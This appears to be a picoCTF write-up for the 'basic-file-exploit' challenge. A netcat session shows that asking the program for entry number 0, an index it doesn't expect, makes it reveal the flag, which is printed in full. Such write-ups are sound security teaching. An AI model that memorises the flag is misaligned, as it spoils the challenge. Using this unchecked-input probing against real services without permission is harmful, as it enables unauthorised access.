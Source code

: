 # basic-file-exploit
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 52681` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/543/program-redacted.c).

#### Hints
- Try passing in things the program doesn't expect. Like a string instead of a number.

### Solution
```bash
                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 52681
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
carlos
carlos
Please enter the length of your data:
6
6
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
carlos
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}

```